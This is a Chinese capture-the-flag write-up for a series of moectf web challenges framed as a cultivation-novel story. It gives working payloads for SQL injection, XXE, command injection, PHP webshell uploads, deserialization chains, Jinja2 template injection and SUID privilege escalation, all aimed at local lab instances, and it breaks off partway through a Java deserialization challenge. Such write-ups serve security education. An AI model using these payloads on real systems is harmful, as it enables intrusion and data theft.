


# Web-**Web安全与渗透**

> 不看小说做不出来也无妨
>

## 环境配置

* **浏览器**：`Firefox`

* **工具**：`Burpsuite` `Hackbar` `dirsearch` `Ant-Sword` `CyberChef`
* **代码环境**：`python`/`PHP`/`Javascript`

## 0 Web入门指北

> 当比赛结束，回顾小说剧情的时候，你会发现主角一路修炼变强的荣耀，不也属于你吗？

`F12`打开控制台输入`JSFuck`代码即可。

```
moectf{jv@vScr1p7_14_so0o0o0o_inT3r3&t!!!}
```

## 01 第一章 神秘的手镯

> 【万载尘封，灵犀方启。欲窥玄机，需诵‘启封咒’。】

不让复制，只需控制台禁用`JS`，然后再打开。

`Microsoft Edge`：`Ctrl+Shift+I` `Ctrl+Shift+P`，输入`JavaScript`

`Firefox`：网址栏输入`about:config`，找到`javascript.enabled`

```
moectf{f_i2_1s_Your_g00d_fri3nd!!}
```

**另：查看前端源代码即可发现`flag`**

## 01 第一章 神秘的手镯_revenge

> 相传，大名鼎鼎的**金曦破妄真君**——HDdss从微末中来，偶然中通过**劫烬重明天尊**——K皇的手镯与其相识并拜K皇为师。后来在K皇帮助HD修行，而HD帮助K皇重塑肉身，二人双双飞升成仙，如今不知去向......

提示备份，我们在`URL`后添加`/wanyanzhou.txt.bak`，得到了密码。

下面只需输入`500次`，查看一下`JS`源代码再编写爆破脚本。

```javascript
(async()=>{
const PASSWORD="REPLACE_WITH_PASSWORD";
const ITERS=500;
const ta=document.getElementById("passwordInput");
const btn=document.getElementById("unsealButton");
const desc=Object.getOwnPropertyDescriptor(HTMLTextAreaElement.prototype,"value");
Object.defineProperty(ta,"value",{
  configurable:true,
  enumerable:desc.enumerable,
  get:function(){return desc.get.call(this);},
  set:function(v){ if(v==="") return; return desc.set.call(this,v); }
});
for(let i=0;i<ITERS;i++){
  ta.value=PASSWORD;
  ta.dispatchEvent(new Event("input",{bubbles:true}));
  btn.click();
  await new Promise(r=>setTimeout(r,60));
}
delete ta.value;
Object.defineProperty(ta,"value",desc);
})();
```

```
moectf{0a7c8efd-86a7-5531-adf0-c673352e474b}
```

## 02 第二章 初识金曦玄轨

> “此乃老夫模拟宗门常见的‘天赋初测禁制’所设。”K皇道，“其表象华丽，内藏乾坤。真言（Flag）便藏于其玄轨本源之中。你且运转罗盘，以‘窥天之桥’探查此光幕本源，找出真言！”

提示用`8080`端口代理。

```bash
# curl -x http://127.0.0.1:8080 http://127.0.0.1:11023/
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <title>金曦禁制·初阶试炼</title>
    <link href="https://fonts.googleapis.com/css2?family=Ma+Shan+Zheng&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="/static/css/style.css">
</head>
<body>
    <div class="ink-bg"></div>

    <div class="scroll-container">
        <div class="scroll-content">
            <h1>【金曦禁制·初阶试炼】</h1>

            <div class="talisman-card">
                <blockquote>
                    "金曦禁制乃宗门秘传，非神识敏锐者不可窥其真形。"
                    <br><br>
                    <span class="blur-text">前往/golden_trail看看</span>
                </blockquote>
            </div>

            <div class="spell-code">
                <div class="spell-header">古籍残卷</div>
                <p class="obscured">此处文字被岁月侵蚀模糊难辨...只能辨认几个字...破阵...盘？</p>
            </div>
        </div>
    </div>

    <div class="sword"></div>
    <div id="aura-particles"></div>

    <script src="/static/js/effects.js"></script>
</body>
</html>
```

根据提示，我们前往`/golden_trail`，查看响应头。



```
moectf{0bs3rv3_Th3_Gold3n_traiL}
```

## 03 第三章 问剑石！篡天改命！

> 仙门试炼台中央矗立着玄天剑宗至宝"问剑石"，石身流转着七彩霞光。你作为新晋弟子需测试天赋，但暗中知晓问剑石运作的玄机——其天赋判定实则通过金曦玄轨传递信息。

`bp`抓包后按题目要求修改重新`post`即可。



```
moectf{gEt-P0sT-TR@Nsm15510N_15-@-g00D_meTHoDll!3c}
```

## 04 第四章 金曦破禁与七绝傀儡阵

> 眼前景象变换，已身处一座巨大的地下石殿之中。殿内光线昏暗，唯有七尊造型各异、散发着冰冷金属光泽的巨大傀儡，如同沉睡的巨兽，分别矗立在七个方位。空气弥漫着压抑的灵压和机括运转的低沉嗡鸣。

此题考察`http`请求，完成每个任务后收集玉简拼接。

**GET**

```
?key=xdsec 
# bW9lY3Rme0Mw
```

**POST**

```
curl -X POST -d "declaration=织云阁=第一" http://127.0.0.1:53567/cloud_weaver 
# bjZyNDd1MTQ3
```

**本地访问**

```
curl -H "X-Forwarded-For: 127.0.0.1" http://127.0.0.1:53567/shadow_stalker 
# MTBuNV95MHVy
```

**浏览器**

```
curl -H "User-Agent: moe browser" http://127.0.0.1:53567/soul_discerner
# X2g3N1BfbDN2
```

**身份认证**

```
curl -H "Cookie: user=xt" http://127.0.0.1:53567/heart_seal
# M2xfMTVfcjM0
```

**Referer**

```
curl -H "Referer: http://panshi/entry" http://127.0.0.1:53567/pathfinder
#  bGx5X2gxOWgh
```

**PUT**

```
curl -X PUT http://127.0.0.1:53567/void_rebirth -H "Content-Type: text/plain" -d "新生！"
# fQ==
```

`base64`解码后得到：

```
moectf{C0n6r47u14710n5_y0ur_h77P_l3v3l_15_r34lly_h19h!}
```

## 05 第五章 打上门来！

> 汝不过侥幸得势之鄙夫，安敢窃据S级之位，与吾horrible并列？徒惹人笑！可敢于三日之后，午时三刻，斗法台上一决高下？届时，当众碾碎汝之虚名，令汝知晓何谓云泥之别！——天衍阁·horrible 敕令！

可以自由查看网页文件，提示的“文件穿梭技法”即为`../`，我们输入`../../`看到了`flag`文件。

```
moectf{@ll-1NpuT-ls_M4L1ClOUs4d84c9a3}
```

## **06 第六章 藏经禁制？玄机初探！**

> "九重玄机锁..."K皇沉吟，"此乃'天衍真言术'的入门考验！所谓玄机禁制，实则是以特殊'真言'构筑的规则牢笼——在凡俗界，称之为'数据库'；其破解之道，名为'注入之术'！"

典型的`sql`注入，用万能密码即可（不过要先查看一下传递的参数）。

```
http://127.0.0.1:20322/?username=&password=' OR '1'='1' --
```

```
moectf{wEICom3_to_sq1-1NJECTloN!l12a9c353}
```

## 07 第七章 灵蛛探穴与阴阳双生符

> "此乃守阁傀儡布下的警戒网。"K皇提醒，"专捕钻洞宵小。需以'灵蛛探穴术'与其共鸣，方可通过。"

查看`/robots.txt`，包含爬虫信息。

```
User-agent: *
Disallow: /flag.php
```

访问`flag.php`，需要`php`代码审计。

```php
<?php
highlight_file(__FILE__);
$flag = getenv('FLAG');

$a = $_GET["a"] ?? "";
$b = $_GET["b"] ?? "";

if($a == $b){
    die("error 1");
}

if(md5($a) != md5($b)){
    die("error 2");
}

echo $flag;
```

代码中使用的是`!=`（松散比较），而不是`!==`（严格比较）。在PHP中，松散比较会进行类型转换。我们可以利用这一点，传递两个字符串，它们不是有效的MD5哈希，但被松散比较认为是相等的。

构造`payload`：

```
http://127.0.0.1:56727/flag.php?a=QNKCDZO&b=240610708
```

```
moectf{md5_IS-not_SAfE1l1d8750fde52}
```

## 08 第八章 天衍真言，星图显圣

> 葬星古墟开启前夜，玄机阁底暗流涌动。HDdss以龟息诀化形为顽石，在无相玄光中潜行如影。当他穿过千机岩的密道，眼前的景象令他呼吸一滞——万卷廊并非凡间书阁，而是一片浩瀚星海！十万玉简如星辰流转，在九重天宇间循玄奥轨迹运行。

`union`注入，有固定的做题板子。

以`mysql`为例，它有固定的数据库``information_schema``储存表的信息。

先确定列数（需要占位）。

```
/?username=admin ORDER BY 2 --  &password=123
```

再查数据库（列数为`2`）。

```
/?username=' union select database(),1 -- &password=123
```

再查表名（数据库叫`user`）。

```
/?username=' union select (select table_name from information_schema.tables where table_schema='user' limit 0,1),1 -- &password=123
```

再查字段（表名为`flag`）。

```
/?username=' union select (select group_concat(column_name) from information_schema.columns where table_schema='user' and table_name='users'),1 -- &password=123
```

```
/?username=' union select (select value from user.flag),1 -- &password=123
```

```
moectf{UnlOn-BA5Ed_SqII-fTw1l124520155}
```

## 09 第九章 星墟禁制·天机问路

> 【星墟真名关】 虚空星域皆有名，真名隐于天机链。 欲入墟眼护重宝，且向玄鉴问幽玄！ ———输入星域真名，解析天机锁链

发现参数中包含`URL`，尝试下参数注入。

```
http://127.0.0.1:62026/?url='';env
```

```
moectf{99f51414-4d1b-2df7-66bf-f5cd6765e858}
```

## 10 第十章 天机符阵

> **「星殒禁域·启！」**

非预期解，正解在`revenge`中。

`URL`后添加`/flag.txt`即可。

```
moectf{G00d_7o6_4nD_XX3_Unl0ck_St4r_S34l}
```

## 10 第十章 天机符阵_revenge

> flag在flag.txt里面

提示了`xxe`漏洞。

```
<阵枢>引魂玉</阵枢>
<解析>未定义</解析>
<输出>未定义</输出>
```

```xml
<!DOCTYPE 契约 [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root>
    <阵枢>引魂玉</阵枢>
    <解析>&xxe;</解析>
    <输出>守玉人残魂</输出>
</root>
```

```
moectf{b36161fc-07ae-4cc9-0bda-3673f258ab01}
```

## 11 第十一章 千机变·破妄之眼

> HDdss看到了 **GET** 参数名由`m,n,o,p,q`这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道**参数名等于参数值**才能进入。

查看一下源代码，我们直接在控制台按提示要求爆破。

```javascript
function* permutations(arr, n = arr.length) {
  if (n === 1) yield arr.slice();
  else for (let i = 0; i < n; i++) {
    yield* permutations(arr, n - 1);
    [arr[n % 2 ? 0 : i], arr[n - 1]] = [arr[n - 1], arr[n % 2 ? 0 : i]];
  }
}

async function bruteForce() {
  const chars = ['m', 'n', 'o', 'p', 'q'];
  const targetUrl = window.location.origin + window.location.pathname;

  for (const param of permutations(chars)) {
    const paramStr = param.join('');
    
    const response = await fetch(`${targetUrl}?${paramStr}=${paramStr}`, {
      credentials: 'include',
      headers: {'X-Requested-With': 'XMLHttpRequest'}
    });
    
    await new Promise(resolve => setTimeout(resolve, 300));
  }
}

bruteForce();
```

发现`flag.php`，说`flag`就在这里。还有一个`find.php`文件，尝试下文件包含。

```
/find.php?file=php://filter/convert.base64-encode/resource=flag.php
```

用`base64`解码，`flag`在`php`代码注释里。

```
moectf{84fd1e75-647c-3aa4-82b8-1cba2dc45347}
```

## 12 第十二章 玉魄玄关·破妄

> **「吾乃玉魄初主玄微子。后世得见吾之传承者，需破四玄关。」**
> **「首关‘破妄’——勘破虚妄，直抵本真。」**

```php
<?php
highlight_file(__FILE__);
@eval($_POST['cmd']);
```

用蚁剑连接，根目录打开终端输入``env``。

```
moectf{ff560111-86ab-ec12-dee6-084f8d577fb5}
```

## 13 第十三章 通幽关·灵纹诡影

> **「此关禁绝残魂」** 玄微子的声音从齿轮深处传来，**「魔气擅噬神魂，汝需独力破局」**
> **「任务：」**
> **【清秽】净化玉魄核心**
> **【绘真】上传修复灵纹**

题目已经提示了文件头绕过`FFD8FF`。

构造一句话木马`1.php`，并用`01editor`修改文件头。

```php
<?=eval($_POST['cmd']);?>
```

上传后用蚁剑连接`http://127.0.0.1:53111/uploads/1.php`，根目录打开终端输入`env`。

```
moectf{63f59f3f-1a5e-fa6a-782d-58a02b7b3440}
```

## 14 第十四章 御神关·补天玉碑

> **御神关任务：**
> **【补天】修复守护玉碑**
> **【斩魔】激活玉碑镇压魔心**

系统过滤`php`文件，提示是`apache`服务器，我们可以伪装成配置文件``.htaccess``。

```htaccess
<Files "payload">
    SetHandler application/x-httpd-php
</Files>
```

这个文件会把`payload`文件作为`php`文件执行。上传一句话木马，文件名为`payload`，不需要后缀。

```php
<?php eval($_POST['cmd']); ?>
```

用蚁剑连接` `，检查根目录文件发现`flag`。

```
moectf{e85c55a3-1c51-b895-1129-cf7737bca98a}
```

**还可以关注一下`.user.ini`以及图片马的用法。**

## 15 第十五章 归真关·竞时净魔

> **「魔心秽血已污染玉魄九成...归真关乃最后机缘...若败...万物皆灭...」**

[浅析条件竞争漏洞_竞争条件漏洞-CSDN博客](https://blog.csdn.net/qq_46150940/article/details/115639419)

文件上传弄了好久，还是注意审题，应该是条件竞争。`bp`不装插件不能多线程，所以我们用`py`。

```python
import requests
from concurrent.futures import ThreadPoolExecutor

upload_url = "http://127.0.0.1:23722/"
shell_url = "http://127.0.0.1:23722/uploads/shell.php"

def race_condition_attack(_):
    files = {
        "upload_file": (
            "shell.php",  
            "<?php fputs(fopen('pass.php','w'),'<?php phpinfo();?>');?>",  
        )
    }
    data = {"submit": "上传"}
    requests.post(upload_url, data=data, files=files, timeout=3)
    r = requests.get(shell_url, timeout=3)
    if r.status_code == 200:
        print("[+] 上传成功！Shell 已存在:", shell_url)

if __name__ == "__main__":
    with ThreadPoolExecutor(20) as pool:
        pool.map(race_condition_attack, range(200))  
```

```
moectf{70c57075-0bc1-245e-03cc-3f77007a2b06}
```

## 16 第十六章 昆仑星途

> 玄天剑宗的庆功宴设在破碎天穹之下。葬星古墟的悬棺第一次不再是死亡的象征，而是化作漫天星灯，守玉人静立虚空，以身为烛，照亮这场跨越生死的盛宴。

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

include($_GET['file'] . ".php");
```

传递`file参数`会在前端展示内容，需要绕过`.php`，发现`allow_url_include = On`，`flag`文件名为随机30个数字字母（`flag-xxxx`）。我们利用文件包含原理，并用`#`注释掉URL中后续的参数以绕过检测。

```
http://127.0.0.1:65009/?file=data://text/plain,<?php system('cat /flag-*');?># 
```

```
moectf{3b6a1b51-3a4a-559b-4452-0cba9e8f1bd5}
```

## 17 第十七章 星骸迷阵·神念重构

> 脚下并非实地，而是悬浮的青铜齿轮，大的如山脉横亘，小的似微尘浮游。齿轮咬合处迸发着数据流光，在虚空中交织成无尽迴路。远处有破碎的殿宇倒悬，廊柱间缠绕着发光藤蔓——细看竟是具象化的代码流！

```php
<?php
highlight_file(__FILE__);

class A {
    public $a;
    function __destruct() {
        eval($this->a);
    }
}

if(isset($_GET['a'])) {
    unserialize($_GET['a']);
}
```

```
http://127.0.0.1:54364/?a=O:1:%22A%22:1:{s:1:%22a%22;s:10:%22phpinfo();%22;}
```

在`phpinfo()`的`env`里找到了`flag`。

```
moectf{cc0c2fc5-8ec3-ed9b-2741-e826d5207b5f}
```

## 18 第十八章 万卷诡阁·功法连环

> 黑猫挥出的数据风暴将三人卷入一座无尽书阁。檀木书架高耸入云，其上玉简如星河铺展，每一卷都流淌着大道符文。阁中央悬浮着墨玉棋局，三百六十一枚棋子皆由压缩的功法代码凝成。

```php
 <?php
highlight_file(__FILE__);

class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}

if(isset($_GET['person'])) {
    unserialize($_GET['person']);
} 
```

```
http://127.0.0.1:54605/?person=O:7:"PersonA":1:{s:13:"%00PersonA%00name";O:7:"PersonB":1:{s:4:"name";s:10:"phpinfo();";}}
```

在`phpinfo()`的`env`里找到了`flag`。

```
moectf{77f0400b-f11a-812b-e1a4-78d0f2627b5d}
```

## 19 第十九章 星穹真相·补天归源

> 空间裂缝闭合的刹那，三人坠入一片混沌星穹。这里没有天地之分，只有无数破碎的镜面悬浮流转，每一面镜子都映照出不同的时空片段——有玄天剑宗的庆功宴，有葬星古墟的惨战，甚至还有HDdss幼时在赵家偏院练剑的青涩模样。

```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```

```
http://127.0.0.1:65309/?person=O:7:"PersonA":3:{s:4:"name";O:7:"PersonC":3:{s:4:"name";s:6:"system";s:2:"id";s:2:"xx";s:3:"age";s:2:"xx";}s:2:"id";s:7:"__Check";s:3:"age";s:7:"cat /f*";}
```

```
moectf{b9c0db89-853c-52fd-c779-ffe5bc66a127}
```

## 19 第十九章_revenge

> 第十九章的revenge

```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $name->$id($this->age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonC extends Person
{
    public function check($age)
    {
        $name=$this->name;
        if($age == null)
        {
            die("Age can't be empty.");
        }
        else if($name === "system")
        {
            die("Hacker!");
        }
        else
        {
            var_dump($name($age));
        }
    }

    public function __wakeup()
    {
        $name = $this->id;
        $name->age = $this->age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```

```
http://127.0.0.1:56672/?person=O:7:"PersonA":3:{s:4:"name";O:7:"PersonC":3:{s:4:"name";s:4:"exec";s:2:"id";O:7:"PersonB":3:{s:4:"name";s:3:"any";s:2:"id";O:6:"Person":3:{s:4:"name";N;s:2:"id";N;s:3:"age";N;}s:3:"age";N;}s:3:"age";s:3:"xxx";}s:2:"id";s:5:"check";s:3:"age";s:3:"env";}
```

```
moectf{de439502-db1f-64b9-f661-a7900923048e}
```

## 20 第二十章 幽冥血海·幻语心魔

> 断笛中爆出血雾，在空中交织成诡异符阵。另外两名魔修同时喷出本命精血，嘶声吟唱：
>
> "以血为媒，以言为咒——幻语心魔阵，启！"

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = render_template_string(f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>欢迎: {username}</div></div>
            </div>
            """)
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

```
http://127.0.0.1:40563/?username={{cycler.__init__.__globals__['os'].popen('env').read()}}&password=1
```

```
moectf{02941eab-7adb-d9d0-69bc-4a2dc9086bfa}
```

## 21 第二十一章 往生漩涡·言灵死局

> 往生漩涡的边缘，血浪滔天。万魂幡摇动间，无数怨魂从漩涡中爬出，化作实体化的血色魔兵。为首魔修身高丈二，血袍上绣着九颗噬心图案——正是噬心魔宗九心长老！

```python
from flask import Flask, request, render_template, render_template_string
app = Flask(__name__)

blacklist = ["__", "global", "{{", "}}"]

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = render_template_string(f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>欢迎：{username}</div></div>
            </div>
            """)

            for blk in blacklist:
                if blk in username:
                    login_msg = """
                    <div class="login-result" id="result">
                        <div class="result-title">阵法反馈</div>
                        <div id="result-content"><div class='login-fail'>Error</div></div>
                    </div>
                    """
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

```
http://127.0.0.1:1378/?username=<pre></pre>&password=1
```

```
moectf{b603bff7-2595-9703-5449-640a7b6fea44}
```

## 22 第二十二章 血海核心·千年手段

> 漩涡深处竟是别有洞天。一座由白骨堆砌的宫殿矗立在血海核心，殿门笼罩着血色光幕，上面流转着比言灵死局更复杂的符文。

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>Welcome: {username}</div></div>
            </div>
            """
            render_template_string(login_msg)
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

[jinjia2无回显SSTI - colorfullbz - 博客园](https://www.cnblogs.com/shinnylbz/p/18572680)

```
http://127.0.0.1:50094/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/dir.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('dir ../').read() ) }}&password=1

http://127.0.0.1:50094/static/dir.txt
```

```
app  boot  entrypoint.sh  flag	lib    media  opt   root  sbin	sys  usr
bin  dev   etc		  home	lib64  mnt    proc  run   srv	tmp  var
```

```
http://127.0.0.1:50094/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/flag.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('cat ../flag').read() ) }}&password=1

http://127.0.0.1:50094/static/flag.txt
```

发现了`flag`无法读取，必须想办法绕过权限问题。试试`SUID`。

```
http://127.0.0.1:51925/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/suid.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('find / -perm -4000 -type f 2>/dev/null').read() ) }}&password=1

http://127.0.0.1:51925/static/suid.txt
/usr/bin/rev
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
```

逆向检查一下`/rev`。

```
http://127.0.0.1:51925/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/main_disassembly.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('objdump -d /usr/bin/rev | grep -A 30 main').read() ) }}&password=1

http://127.0.0.1:51925/static/main_disassembly.txt
```

```assembly
1175: 	48 8b 00             	mov    (%rax),%rax
1178: 	48 89 c6             	mov    %rax,%rsi
```
这里，程序把输入的第一个参数（比如 `ssdDH--`）放到了 `%rsi` 寄存器里，准备进行比较。

```assembly
117b: 	48 8d 05 82 0e 00 00 	lea    0xe82(%rip),%rax        # 2004 <_IO_stdin_used+0x4>
1182: 	48 89 c7             	mov    %rax,%rdi
```
程序从内存地址 `0x2004` 加载了一个字符串，并把它放到了 `%rdi` 寄存器里。这个地址 `0x2004` 正是我们之前在 `.rodata` 区看到的 `--HDdss` 字符串的起始位置。

```assembly
1185: 	e8 a6 fe ff ff       	call   1030 <strcmp@plt>
118a: 	85 c0                	test   %eax,%eax
118c: 	75 3e                	jne    11cc <main+0x83>
```
程序调用 `strcmp` 来比较输入的参数（在 `%rsi`）和隐藏的密码 `--HDdss`（在 `%rdi`）。如果两个字符串不相等(`jne`)，程序就会直接跳到后面，什么也不做。

```assembly
11be: 	48 8b 00             	mov    (%rax),%rax
11c1: 	48 89 d6             	mov    %rdx,%rsi
11c4: 	48 89 c7             	mov    %rax,%rdi
11c7: 	e8 74 fe ff ff       	call   1040 <execvp@plt>
```
程序把输入的第二个参数作为要执行的命令，把输入的第三个参数作为命令的参数，然后调用 `execvp` 来执行！

这个伪装的 `rev` 程序是一个通用的提权工具，它的用法是：

`/usr/bin/rev [密码] [要执行的命令] [命令的参数]`

*   **密码**：就是我们找到的 `--HDdss`。
*   **要执行的命令**：可以指定任何我们想执行的命令，比如 `/bin/cat`。
*   **命令的参数**：就是 `/flag`！

```
http://127.0.0.1:51925/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/final_flag.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('/usr/bin/rev --HDdss /bin/cat /flag').read() ) }}&password=1

http://127.0.0.1:51925/static/final_flag.txt
```

```
moectf{8c20281d-8245-18ad-8dae-fe437a5ccd77}
```

## 23 第二十三章 幻境迷心·皇陨星沉(大结局)

> 两个环境解释：
>
> 题目在容器dog-app(环境里只有sh,反弹shell时建议使用nc)
>
> rev-shel(堡垒机)请使用ssh（root:root123）登录, 可以做反弹shell（请用nc）或外带数据的服务端 (两容器完全共享同一个网卡，相互访问ip都是127.0.0.1，但端口不要冲突)
>
> 省流：题目环境使用openjdk8

```
jar xf demo.jar 
```

```java
package com.example.demo.Dog;

import java.io.Serializable;
import java.util.Objects;

public class Dog implements Serializable, DogModel {
   private int id;
   private String name;
   private String breed;
   private int age;
   private int hunger;
   Object object;
   String methodName;
   Class[] paramTypes;
   Object[] args;

   public Dog(int id, String name, String breed, int age) {
      this.id = id;
      this.name = name;
      this.breed = breed;
      this.age = age;
      this.hunger = 50;
   }

   public int getId() {
      return this.id;
   }

   public void setId(int id) {
      this.id = id;
   }

   public String getName() {
      return this.name;
   }

   public String getBreed() {
      return this.breed;
   }

   public int getAge() {
      return this.age;
   }

   public int getHunger() {
      return this.hunger;
   }

   public void feed() {
      this.hunger = Math.max(0, this.hunger - 10);
   }

   public boolean equals(Object o) {
      if (this == o) {
         return true;
      } else if (o != null && this.getClass() == o.getClass()) {
         Dog dog = (Dog)o;
         return this.id == dog.id;
      } else {
         return false;
      }
   }

   public int hashCode() {
      this.wagTail(this.object, this.methodName, this.paramTypes, this.args);
      return Objects.hash(new Object[]{this.id});
   }
}
```

```java
package com.example.demo.controller;

import com.example.demo.Dog.Dog;
import com.example.demo.Dog.DogService;
import java.util.List;
import org.springframework.web.bind.annotation.DeleteMapping;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PathVariable;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping({"/dogs"})
public class DogController {
   private final DogService dogService;

   public DogController(DogService dogService) {
      this.dogService = dogService;
   }

   @GetMapping
   public List<Dog> getAllDogs() {
      return this.dogService.getAllDogs();
   }

   @PostMapping
   public Dog addDog(@RequestParam String name, @RequestParam String breed, @RequestParam int age) {
      return this.dogService.addDog(name, breed, age);
   }

   @PostMapping({"/{id}/feed"})
   public Dog feedDog(@PathVariable int id) {
      return this.dogService.feedDog(id);
   }

   @DeleteMapping({"/{id}"})
   public Dog removeDog(@PathVariable int id) {
      return this.dogService.removeDog(id);
   }

   @GetMapping({"/export"})
   public String exportDogs() {
      return this.dogService.exportDogsBase64();
   }

   @PostMapping({"/import"})
   public String importDogs(@RequestParam("data") String base64Data) {
      this.dogService.importDogsBase64(base64Data);
      return "导入成功！";
   }
}
```

```java
package com.example.demo.Dog;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.ArrayList;
import java.util.Base64;
import java.util.Collection;
import java.util.HashMap;
import java.util.Iterator;
import java.util.List;
import java.util.Map;
import org.springframework.stereotype.Service;

@Service
public class DogService implements Serializable {
   private Map<Integer, Dog> dogs = new HashMap();
   private int nextId = 1;

   public DogService() {
   }

   public List<Dog> getAllDogs() {
